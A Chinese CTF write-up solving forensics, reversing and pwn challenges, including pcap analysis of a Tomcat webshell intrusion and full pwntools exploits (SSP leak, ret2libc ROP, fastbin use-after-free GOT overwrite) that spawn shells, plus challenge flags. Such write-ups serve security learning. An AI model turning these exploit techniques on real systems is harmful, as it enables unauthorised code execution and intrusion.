### 神秘的附件

压缩包用7z等软件解压会报错，测试发现binwalk -e 直接就能将压缩内容解出，flag{Slmple_Zip_Pseud0_En4rypt^_^}



### 日志分析

通过流量包可以看到不断有在尝试登陆的行为，在34id的包中，使用tomcat/tomcat的用户密码通过了登陆校验，进入到了tomcat的后台。



继续分析，我们可以看到第131包中有部署war包的动作



在部署完war包后，发现很多访问/12/main.jsp的流量，且传入和响应的参数很可疑







回头去看看部署war包的流量，将上传的war拿下来(直接对data段右键导出分组字节流)：



得到main.jsp，发现是蚁剑的木马：



并且可以发现连接密码以及编解码器：



此时我们就知道，所有参数均为hex编码，我们先尝试搜索flag的hex编码(666C6167)，http contains "666c6167"



发现两个相关的流，我们看最后一个：



请求参数hex解码为：

/usr/local/tomcat/webapps/12/flag

查看蚁剑马发现C参数为文件读取，判断此流量为读取flag的动作，看看响应的情况



右键追踪TCP流



发现响应参数为：

5a6d78685a2b5334756a706a5a6a41344f474d324d6a49305a544d334d7a4a6a4e545979595452684d6a49344f44526b4d4463774f41304b

解hex和base64后得到flag：

flag???:cf088c6224e3732c562a4a22884d0708  

最终提交：

flag{cf088c6224e3732c562a4a22884d0708}

### Wierd Traffic



通过分析可以发现该流量包存在大量的icmp报文，并且长度各不相同，遂使用tshark命令对其长度进行截取如下：

```shell
tshark -r wierd_traffic.pcapng -T fields -Y '(ip.src_host==172.16.96.1) and icmp' -e frame.len
```

转换为ascii看看：

```python
s = [125, 127, 154, 124, 128, 164, 123, 163, 119, 149, 116, 120, 127, 150, 142, 130, 127, 164, 120, 125, 119, 149, 142, 128, 129, 127, 124, 112, 126, 91, 124, 109, 126, 127, 132, 126, 124, 111, 142, 132, 129, 150, 128, 114, 126, 126, 116, 130, 124, 127, 95, 117, 127, 149, 142, 125, 127, 128, 124, 116, 129, 149, 162, 113, 126, 127, 132, 124, 128, 90, 150, 120, 119, 90, 120, 115, 124, 128, 154, 127, 125, 91, 150, 125, 128, 149, 142, 112, 129, 150, 124, 108, 126, 149, 124, 114, 126, 128, 127, 91, 124, 90, 142, 121, 123, 150, 142, 120, 125, 126, 124, 130, 125, 90, 95, 117, 129, 127, 146, 109, 128, 111, 142, 110, 126, 127, 124, 112, 124, 90, 128, 132, 128, 111, 128, 139, 124, 111, 132, 114, 129, 150, 124, 111, 125, 90, 99, 119, 124, 90, 91, 124, 119, 90, 142, 116, 126, 149, 154, 132, 126, 128, 132, 124, 128, 90, 158, 120, 129, 148, 116, 115, 125, 126, 128, 114, 126, 126, 120, 111, 123, 149, 90, 91, 120, 128, 124, 108, 119, 90, 124, 112, 126, 164, 128, 128, 129, 111, 128, 139, 126, 112, 124, 121, 123, 149, 112, 115, 124, 126, 115, 164, 124, 127, 142, 113, 129, 150, 146, 114, 129, 149, 162, 111, 126, 91, 112, 132, 128, 164, 131, 164, 128, 111, 132, 121, 129, 150, 124, 127, 123, 164, 120, 127, 124, 149, 91, 120, 129, 127, 146, 118, 119, 90, 124, 112, 126, 127, 95, 139, 124, 127, 111, 90, 119, 90, 150, 123, 128, 126, 90, 99, 122, 126, 90, 99, 122, 123, 103, 103]
flag = ''
for x in s:
    flag += chr(x)
print flag

# 输出为一堆乱码
# }�|��{�w�tx����x}w����|p~[|m~�~|o�����r~~t�|_u��}�|t���q~�|�Z�xwZxs|��}[�}���p��|l~�|r~�[|Z�y{��x}~|�}Z_u��m�o�n~|p|Z���o��|o�r��|o}Zcw|Z[|wZ�t~���~��|�Z�x��ts}~�r~~xo{�Z[x�|lwZ|p~����o��~p|y{�ps|~s�|�q���r���o~[p������o�y��|{�x|�[x��vwZ|p~_�|oZwZ�{�~Zcz~Zcz{gg

```

再看流量包发现，帧的长度均比icmp中的data长度大42字节，就使用icmp的data长度进行尝试，得到一串base64字符串：

```
SUpRVzQyMkJNUldXUzNSMkdVWURFT1RCTUZTREdZWlVHTTJXRU5KUkdSUVRJWkxGTUZRV0lNM0NIRVpUS1lSVkdFWlRBTkRHTVU1R0dOQldNSTRXS05KWUhCVEdDTURFR0VZVEVaREZHWlRES09MR01RM0dJTkpZTVZRV0tNWjJISTVHTTNEQk01NVRBM0RFTzVVWEVaTFROQkFIRTIzRUdGWlhHWkxET1FZVzYzVEZOWlRUQzNURk1NWUhLM0RFTU5aRUE0M0lQVT09PT09PQ==
```

解base64得到base32字符串：

```
IJQW422BMRWWS3R2GUYDEOTBMFSDGYZUGM2WENJRGRQTIZLFMFQWIM3CHEZTKYRVGEZTANDGMU5GGNBWMI4WKNJYHBTGCMDEGEYTEZDFGZTDKOLGMQ3GINJYMVQWKMZ2HI5GM3DBM55TA3DEO5UXEZLTNBAHE23EGFZXGZLDOQYW63TFNZTTC3TFMMYHK3DEMNZEA43IPU======
```

最终解得：

```
BankAdmin:502:aad3c435b514a4eeaad3b935b51304fe:c46b9e588fa0d112de6f59fd6d58eae3:::flag{0ldwiresh@rkd1ssect1oneng1nec0uldcr@sh}
```

flag{0ldwiresh@rkd1ssect1oneng1nec0uldcr@sh}

### NotWhatYouSee

使用java反编译工具打开apk后，可以发现关键函数为getBin，是通过反序列化的方式来读取flag.bin文件来实例化Flag类，并调用其中的方法，方法名为get_password，其中password就是我们的输入，这里我们有现成的Flag可以看，里面只有一个get_前缀的方法(`get_b0dba5cb2e56315343db51accac932e0`)，尝试直接输入`b0dba5cb2e56315343db51accac932e0`即可得到flag，但直接提交并不正确，最后才发现题目有提示flag的格式，最终提交flag为：flag{c5d6cf6c1091e9e30661fa188dd136b6}





```java
    private static String getBin(Context c, String password) {
        try {
            ObjectInputStream ois = new ObjectInputStream(c.getResources().getAssets().open("flag.bin"));
            Object obj = ois.readObject();
            ois.close();
            Class<? extends Object> clazz = obj.getClass();
            StringBuilder sb = new StringBuilder();
            sb.append("get_");
            sb.append(password);
            Method m = clazz.getMethod(sb.toString(), new Class[0]);
            StringBuilder sb2 = new StringBuilder();
            sb2.append("HJBS-FLAG{");
            sb2.append(m.invoke(obj, new Object[0]).toString());
            sb2.append("}");
            return sb2.toString();
        } catch (Exception e) {
            return "boy, try harder!";
        }
    }

```

### 办理银行业务(Bankname)

#### 基础信息

x64的二进制，开启了canary、nx保护。





#### ida反编译

逻辑很清晰，将flag文件的内容读取到.bss段中的flag值(`0x6010A0`)中，二进制开启了canary保护，考虑到flag的内容已经在.bss中了，__isoc99_scanf处也满足溢出的条件，可以使用ssp leak的攻击方式，覆盖栈上的argv[0]来泄露.bss段上的内容。





#### 调试

找出栈上argv[0]的位置，在距离栈顶392字节处(49个8字节)，那么我们只要使用flag的地址覆盖49次即可。



#### exp

```python
from pwn import *
context.binary = './Bankname'

# switches

if len(sys.argv) == 1:
    DEBUG = 1
else:
    DEBUG = 0
# modify this
if DEBUG:
    io = process(['./Bankname'])
else:
    io = remote(sys.argv[1], int(sys.argv[2]))

context(log_level='debug')

# define symbols and offsets here
addr = 0x00000000006010A0
offset = 49


# define exploit function here
def pwn():

    # gdb
    print "pid: " + str(proc.pidof(io))
    raw_input()

    io.recvuntil("Hey!! What's your name ?\n")
    io.sendline(p64(addr) * offset)
    io.interactive()
    return


if __name__ == '__main__':
    pwn()

```



flag{B0nk_n4me_1s_argV[0]}

### 初识PWN(school)

#### 基础信息

x64的二进制，仅开启了nx保护。





#### ida反编译

gets函数处存在明显的栈溢出漏洞。



#### 利用思路

可以通过溢出后构造伪栈调用puts函数泄露got表中函数真实地址，从而计算出libc的基地址，这时我们就可以计算出system函数与'/bin/sh'字符串的真实地址，再次通过溢出后构造伪栈调用system('/bin/sh')即可拿到shell。

#### exp

```python
from pwn import *
binary_file = './school'
context.binary = binary_file

# switches

if len(sys.argv) == 1:
    DEBUG = 1
else:
    DEBUG = 0
# modify this
if DEBUG:
    io = process([binary_file])
else:
    io = remote(sys.argv[1], int(sys.argv[2]))

context(log_level='debug')

# define symbols and offsets here

offset = 0x40 + 0x8
elf = ELF(binary_file)
libc = ELF('./libc-2.23.so')                            # 远程
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')           # 本地
puts_plt = elf.plt['puts']
libc_start_main_got = elf.got['__libc_start_main']
vuln = 0x00000000004006A9               # main
prdi = 0x0000000000400753               # pop rdi ; ret


# define exploit function here
def pwn():

    # gdb
    print "pid: " + str(proc.pidof(io))
    raw_input()

    payload = flat(['A' * offset, prdi, libc_start_main_got, puts_plt, vuln])
    io.recvuntil("Local Buffer >> ")
    io.sendline(payload)

    # 取17-25是为了去除Have a nice pwn!!字符串
    io.recvuntil("Have a nice pwn!!")               # 远程
    # libc_start_main_addr = u64(io.recv()[17:25])  # 本地
    libc_start_main_addr = u64(io.recv()[0:8])
    # 调试发现，这里取到的十六进制头尾各多了个0a，需要去除
    libc_start_main_addr = int('0x' + str(hex(libc_start_main_addr))[3:15], 16)
    print hex(libc_start_main_addr)

    libcbase = libc_start_main_addr - libc.symbols['__libc_start_main']
    system_addr = libcbase + libc.symbols['system']
    binsh_addr = libcbase + libc.search('/bin/sh').next()

    print hex(system_addr)
    print hex(binsh_addr)

    payload = flat(['A' * offset, prdi, binsh_addr, system_addr, vuln])

    print len(payload)

    io.sendline(payload)
    io.interactive()
    return


if __name__ == '__main__':
    pwn()

```



flag{D9A081FCCE60815B48BF5708ABB234F8}

### Just do it(fast)

#### 基础信息

x64二进制，开启了canary、nx防护。





#### ida反编译

是一个很典型的菜单题，对应的正好是堆的创建释放以及编辑的操作。



create函数会创建一个堆空间，返回该堆的起始地址，并将该地址存储在.bss段中(`0x6020A8`)，当该地址只会记录最新创建的那一个。



edit函数会对ptr指针指向的堆空间内容进行编辑，第一个8字节是name，中间24字节是comment，最后8字节是age，堆空间的内容可以随意控制。



del函数会将ptr指向的堆空间进行free处理，此题的漏洞就出在这里，free后没有对ptr指针置null，导致我们利用edit函数还可以对这个内存区域进行任意修改，show函数也能继续对该区域进行读取。



show函数对堆空间的name、age、comment区域的内容进行输出。



#### 利用思路

在创建了第一个堆空间后，将其删除，这个空间会变为freechunk归到fastbin中，再利用edit函数将freechunk的fd部分修改指向到.bss段中，这是为了将堆空间创建在.bss段，然后通过edit函数对ptr指针进行修改，修改为got表中函数地址(如 atoi)，使用show函数来泄露libc函数真实地址，从而得知libc基地址，计算出system函数的真实地址，再将system函数地址edit到got的atoi中，下一次循环调用atoi时实际调用的是system，这时我们只要输入/bin/sh就可以getshell了。

#### exp

```python
from pwn import *
binary_file = './fast'
context.binary = binary_file

# switches

if len(sys.argv) == 1:
    DEBUG = 1
else:
    DEBUG = 0
# modify this
if DEBUG:
    io = process([binary_file])
else:
    io = remote(sys.argv[1], int(sys.argv[2]))

context(log_level='debug')

# define symbols and offsets here

elf = ELF(binary_file)
libc = ELF('./libc-2.23.so')                            # 远程
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')           # 本地
atoi_got = elf.got['atoi']
bss = 0x0000000000602098        # 为了对ptr指针进行覆盖


def create():
    io.recvuntil("Your choice : ")
    io.sendline("1")


def edit(myname, age, comment):
    io.recvuntil("Your choice : ")
    io.sendline("2")
    io.recvuntil("Name:\n")
    io.sendline(myname)
    io.recvuntil("Age:\n")
    io.sendline(age)
    io.recvuntil("Comment:\n")
    io.sendline(comment)


def erase():
    io.recvuntil("Your choice : ")
    io.sendline("3")


def show():
    io.recvuntil("Your choice : ")
    io.sendline("4")


def pwnexit():
    io.recvuntil("Your choice : ")
    io.sendline("5")


# define exploit function here
def pwn():

    # gdb
    print "pid: " + str(proc.pidof(io))
    raw_input()

    # 通过调试可以发现info的值必须调整为0x31才能构造出正确的堆结构，这里要通过循环调整info的值
    for i in xrange(0x2d):
        show()

    create()
    erase()
    edit(p64(bss), "1", "1")
    create()
    # raw_input()
    create()
    edit(p64(atoi_got), "1", "1")
    show()
    io.recvuntil("Name : ")
    atoi_addr = u64(io.recvuntil("\n")[:-1].ljust(8, "\x00"))
    libc.address = atoi_addr - libc.symbols['atoi']
    system_addr = libc.symbols['system']
    edit(p64(system_addr), "1", "1")
    io.recvuntil("Your choice : ")
    io.sendline("/bin/sh")
    io.interactive()

    return


if __name__ == '__main__':
    pwn()

```



flag{26EBB32F46D970E0FEB52CADC8AC0568}

